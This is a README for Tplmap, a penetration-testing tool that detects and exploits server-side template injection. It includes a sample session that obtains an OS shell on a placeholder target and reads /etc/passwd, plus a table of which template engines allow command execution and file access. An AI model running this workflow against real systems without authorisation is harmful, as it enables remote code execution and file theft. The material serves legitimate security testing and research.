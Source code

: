 Tplmap
======

Tplmap (short for _Template Mapper_) is a tool that automate the process of detecting and exploiting Server-Side Template Injection vulnerabilities (SSTI). 

This can be used by developers, penetration testers, and security researchers to detect and exploit vulnerabilities related to the template injection attacks.

The technique can be used to compromise web servers' internals and often obtain Remote Code Execution (RCE), turning every vulnerable application into a potential pivot point.

The modular approach allows any contributor to extend the support to other templating engines or introduce new exploitation techniques. The majority of the techniques currently implemented came from the amazing research done by [James Kett, PortSwigger][1].

> The application is currently under heavy development and misses some functionalities.

Example
--------

```
$ ./tplmap.py -u 'http://www.target.com/app?id=*'
[+] Found placeholder in GET parameter 'id'
[+] Testing reflection on Mako engine with tag ${} and variances
[+] Testing reflection on Jinja2 engine with tag {{}} and variances
[+] Testing reflection on Twig engine with tag {{}} and variances
[+] Testing reflection on Smarty engine with tag {} and variances
[+] Testing reflection on Freemarker engine with tag ${} and variances
[+] Testing reflection on Velocity engine with tag #set($p=)\n$p\n
[+] Detected unreliable reflection with tag #set($p=)\n$p\n, continuing
[+] Confirmed reflection with tag '\n= \n' by Jade plugin
[+] Tplmap identified the following injection point:

  Engine: Jade
  Template: \n= \n
  Context: text
  OS: linux
  Capabilities:
    Code evaluation: yes, javascript code
    OS command execution: yes
    File write: yes
    File read: yes

[+] Rerun tplmap providing one of the following options:
    --os-cmd or --os-shell to access the underlying operating system
    --upload LOCAL REMOTE to upload files to the server
    --download REMOTE LOCAL to download remote files

$ ./tplmap.py -u 'http://www.target.com/app?id=*' --os-shell
[+] Run commands on the operating system.
linux $ whoami
www-data
linux $ ls -al /etc/passwd
-rw-r--r--  1 root  wheel  5925 16 Sep  2015 /etc/passwd
linux $
  
```

Supported template engines
--------------------------

| Template engine    | Detection | command execution | Code evaluation | File read | File write |
|--------------------|-----------|-------------------|-----------------|-----------|------------|
| Mako               |  yes      | yes               | python          | yes       | yes        |
| Jinja2             |  yes      | yes               | python          | yes       | yes        |
| Jade               |  yes      | yes               | javascript      | yes       | yes        |
| Smarty (unsecured) |  yes      | yes               | PHP             | yes       | yes        |
| Freemarker         |  yes      | yes               | no              | yes       | yes        |
| Velocity           |  yes      | no                | no              | no        | no         |
| Twig               |  yes      | no                | no              | no        | no         |
| Smarty (secured)   |  yes      | no                | no              | no        | no         |


[1]: http://blog.portswigger.net/2015/08/server-side-template-injection.html
